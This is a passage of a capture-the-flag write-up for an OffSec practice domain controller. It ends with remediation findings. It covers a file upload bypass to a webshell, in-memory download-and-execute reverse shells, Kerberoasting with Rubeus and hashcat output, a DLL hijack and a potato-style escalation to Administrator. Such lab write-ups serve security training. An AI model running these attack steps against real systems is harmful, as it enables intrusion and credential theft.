# Access (OffSec Proving Grounds) Writeup

## Enumeration
#### Nmap Scan Results
Nmap scan results show DNS running on TCP port 53, which is common in Active Directory Domain Controllers. Other notable open ports are 88 (Kerberos), 389 (LDAP), 445 (SMB) and 5985 (WinRM). The domain name `access.offsec` is also included in the output, and Apache is running on ports 80 and 443.
```
┌──(root㉿shushan)-[/home/shushan/OffSec/Labs/Access]
└─# nmap -p- -A -T4 192.168.233.187
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-03 13:43 +0300
Nmap scan report for 192.168.233.187
Host is up (0.075s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Access The Event
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-03 10:44:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec, Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Access The Event
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
<SNIP>
```

The web application is a ticket-selling website


Attempting to purchase a ticket reveals a file upload functionality.


A gobuster scan reveals an `uploads` endpoint


After uploading an image, it is accessible at the `uploads` endpoint, where directory listing is enabled.


The web application restricts a variety of php file extensions. However, a webshell with the `.php16 `file extension is not restricted and is successfully uploaded to the web server.


Direct access to the `simple.php16` file reveals that the webserver does not run `.php16` files as PHP.


The web application seems to only block `.php` file extensions and does not block other extensions such as `.zip` or `.txt`. This might make it possible to create a custom `.htaccess` file that enables PHP execution for `.php16` files and upload it to the web server.
The following custom `.htaccess` file is created on the attacking machine.


The file is uploaded successfully

## Initial Access
After successfully uploading a custom `.htaccess` file, the webserver executes the `.php16` webshell and remote code execution is achieved.


The following PowerShell script is prepared to upgrade the webshell to a reverse shell, providing a more interactive experience. A `Netcat` listener is also prepared to receive the connection.


To deliver the payload, a `Python` web server is prepared using the `http.server` module


The following command uses PowerShell's `DownloadString` to download and execute the script directly in memory, potentially bypassing file-based antivirus detection.


Upon execution, a reverse shell as `svc_apache` is established.

Enumeration with `PowerView` reveals that the `svc_mssql` user has a Service Principal Name (SPN). This makes the account vulnerable to Kerberoasting, allowing a TGS to be requested for its SPN and the user's password to potentially be cracked offline.
```
PS C:\Users\svc_apache> Import-Module .\PowerView.ps1
PS C:\Users\svc_apache> Get-DomainUser -SPN 

<SNIP>

company                       : Access
logoncount                    : 1
badpasswordtime               : 12/31/1600 4:00:00 PM
distinguishedname             : CN=MSSQL,CN=Users,DC=access,DC=offsec
objectclass                   : {top, person, organizationalPerson, user}
lastlogontimestamp            : 4/8/2022 2:40:02 AM
name                          : MSSQL
objectsid                     : S-1-5-21-537427935-490066102-1511301751-1104
samaccountname                : svc_mssql
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
countrycode                   : 0
whenchanged                   : 7/6/2022 5:23:18 PM
instancetype                  : 4
usncreated                    : 16414
objectguid                    : 05153e48-7b4b-4182-a6fe-22b6ff95c1a9
lastlogoff                    : 12/31/1600 4:00:00 PM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=access,DC=offsec
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : MSSQLSvc/DC.access.offsec
givenname                     : MSSQL
lastlogon                     : 4/8/2022 2:40:02 AM
badpwdcount                   : 0
cn                            : MSSQL
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
whencreated                   : 4/8/2022 9:39:43 AM
primarygroupid                : 513
pwdlastset                    : 5/21/2022 5:33:45 AM
msds-supportedencryptiontypes : 0
usnchanged                    : 73754

```

`CertUtil` is used to download `Rubeus` to the target system from the `Python` web server running on the attacking machine.


`Rubeus` is then used to perform the Kerberoast attack against the `svc_mssql` user.
```
PS C:\Users\svc_apache> .\Rubeus.exe kerberoast /user:svc_mssql /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : svc_mssql
[*] Target Domain          : access.offsec
[*] Searching path 'LDAP://SERVER.access.offsec/DC=access,DC=offsec' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=svc_mssql)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : svc_mssql
[*] DistinguishedName      : CN=MSSQL,CN=Users,DC=access,DC=offsec
[*] ServicePrincipalName   : MSSQLSvc/DC.access.offsec
[*] PwdLastSet             : 5/21/2022 5:33:45 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.access.offsec@access.offsec*$0349F64BEF6261DB36FEBB329FD4241E$1C77B1B711DED08C68061CE22233C21D04DDF87E4EBAF802009AA25D100F806079C4C9A9655A37251FA233678FA218E57C60A1D0A733089FEEA8401160BA213E78D390827E76BA0A551D588B5B2D1FC23B19BD541474A6811130BB82380C9285F2B5E5908..SNIP..D3CF9BF1AA0E4491422337A004B7D22794E1E5CDB55B4CDC83EC27C7D7FC15BA7E9843D0C31E70753ECDC0973C018CF240DAB6B45A726A52978113D0BDD7EA7A00BDF503B982A0E9D1ADF31322C8EBB2D97FEDBF7835C5830E41125FB79E2676995D6F3241F056A5C0C
```

`Hashcat` successfully cracks the user's password.
```
┌──(shushan㉿shushan)-[~/OffSec/Labs/Access]
└─$ nano kerberoast_mssqlsvc
                                                                                                                                                           
┌──(shushan㉿shushan)-[~/OffSec/Labs/Access]
└─$ hashcat -m 13100 kerberoast_mssqlsvc /usr/share/wordlists/rockyou.txt                                                          
hashcat (v7.1.2) starting

<SNIP>

$krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.access.offsec@access.offsec*$0349f64bef6261db36febb329fd4241e$1c77b1b711ded08c68061ce22233c21d04ddf87e4ebaf802009aa25d100f806079c4c9a9655a37251fa233678fa218e57c6..SNIP..4ae33662edb303cdebe3cddf9cd5411baa97fbaa6afd8dd25b02abefa399ef57553b8720017311162f0136df47643f7acd63a1e81f21329fbe83e9acd85476cf4ac6ddb8a6b5e0dc80cd10cdeb843c1b5553c1cef2ed4bc79daaa3d089c156901faf05d939c736ab7272e9ca49b33cb4bd3cf9bf1aa0e4491422337a004b7d22794e1e5cdb55b4cdc83ec27c7d7fc15ba7e9843d0c31e70753ecdc0973c018cf240dab6b45a726a52978113d0bdd7ea7a00bdf503b982a0e9d1adf31322c8ebb2d97fedbf7835c5830e41125fb79e2676995d6f3241f056a5c0c:trustno1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.ac...6a5c0c
Time.Started.....: Thu Sep  3 14:23:50 2026 (0 secs)
Time.Estimated...: Thu Sep  3 14:23:50 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  1402.4 kH/s (1.42ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4096/14344385 (0.03%)
Rejected.........: 0/4096 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> oooooo
Hardware.Mon.#01.: Util: 32%

Started: Thu Sep  3 14:23:50 2026
Stopped: Thu Sep  3 14:23:51 2026
```

`svc_mssql` can not authenticate to the Domain Controller through WinRM and does not have special SMB privileges. In addition, MSSQL is not running on the target.
To get access to the Domain Controller as the user, [Invoke-RunasCs.ps1](https://raw.githubusercontent.com/antonioCoco/RunasCs/refs/heads/master/Invoke-RunasCs.ps1) can be used.
The script is transferred to the target and executed with the following parameters:


A connection is then established to a `Netcat` listener running on port 443


The user flag is located at `C:\Users\svc_mssql\Desktop`

## Privilege Escalation

`svc_mssql` has the `SeManageVolumePrivilege`. This privilege can be used to grant Full Control of the `Windows` directory to all system users. This can enable DLL hijacking involving a highly privileged Windows process or command (such as the `systeminfo` command), allowing for privilege escalation.


[Set-TokenPrivilege.ps1](https://raw.githubusercontent.com/KurtDeGreeff/PlayPowershell/refs/heads/master/Set-TokenPrivilege.ps1) can be used to enable the privilege in the current shell.


The script successfully enables `SeManageVolumePrivilege`


The publicly available `SeManageVolumeExploit.exe` from [CsEnox's GitHub](https://github.com/CsEnox/SeManageVolumeExploit/releases) can be used to grant full control over the `C:` drive to all users on the machine.


Upon execution, the `BUILTIN\Users` group is granted Full Control (F) over `C:\Windows`, as confirmed by `icacls`


[dllref](https://sirensecurity.io/blog/dllref/) provides information about DLL files loaded by different processes and the user accounts under which these processes run. The `tzres.dll` file is loaded when `systeminfo` is executed under the `NT AUTHORITY\NETWORK SERVICE` account. This account typically has `SeImpersonatePrivilege`, making `tzres.dll` a potential target for DLL hijacking and further 
privilege escalation to `SYSTEM`.


The `svc_mssql` user can execute the `systeminfo` command, allowing for privilege escalation to the `NT AUTHORITY\NETWORK SERVICE` account by replacing `tzres.dll` with a malicious DLL that establishes a reverse shell.


`msfvenom` is used to create the malicious `tzres.dll` file. A `Netcat` listener is also prepared to receive the connection.


The file is transferred to the target and stored in the directory specified by `dllref`


Upon re-execution of the `systeminfo` command, a reverse shell is established as `NT AUTHORITY\NETWORK SERVICE`


Privilege enumeration confirms that the compromised service account has `SeImpersonatePrivilege` enabled, allowing for privilege escalation using the `Potato` tools or `PrintSpoofer`.


[SigmaPotato](https://github.com/tylerdotrar/SigmaPotato/releases) is then transferred to the target and used to change the `Administrator` account's password to `Pwned1k`. The process output confirms that the command was executed successfully.


The new password is confirmed with `NetExec`


`evil-winrm` is then used to access the Domain Controller as `Administrator` and retrieve the root flag from `C:\Users\Administrator\Desktop`

# Findings & Remediation

### Unrestricted File Upload

#### Description
The web application does not properly restrict file uploads, allowing files with nonstandard extensions to be uploaded. An attacker can upload a custom `.htaccess` file to configure the web server to execute `.php16` files as PHP, enabling the execution of an uploaded web shell.

#### Impact
An attacker can achieve remote code execution on the web server, potentially gaining unauthorized access to the underlying system.

#### Remediation
Implement a strict allowlist of permitted file extensions and validate uploaded file types. Prevent the upload of server configuration files such as `.htaccess` and disable script execution within upload directories.

### Directory Listing Enabled

#### Description
